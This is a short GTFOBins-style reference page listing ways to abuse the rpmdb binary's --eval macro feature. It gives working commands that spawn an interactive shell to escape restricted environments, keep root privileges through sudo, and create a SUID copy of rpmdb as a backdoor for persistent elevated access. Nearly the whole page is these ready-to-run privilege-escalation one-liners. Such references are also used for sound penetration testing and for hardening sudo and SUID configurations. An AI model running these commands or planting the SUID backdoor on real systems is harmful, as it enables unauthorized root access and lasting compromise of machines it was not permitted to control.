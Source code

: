 # GTFOBin: rpmdb

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
rpmdb --eval '%(/bin/sh 1>&2)'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo rpmdb --eval '%(/bin/sh 1>&2)'
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which rpmdb) .

./rpmdb --eval '%(/bin/sh 1>&2)'
```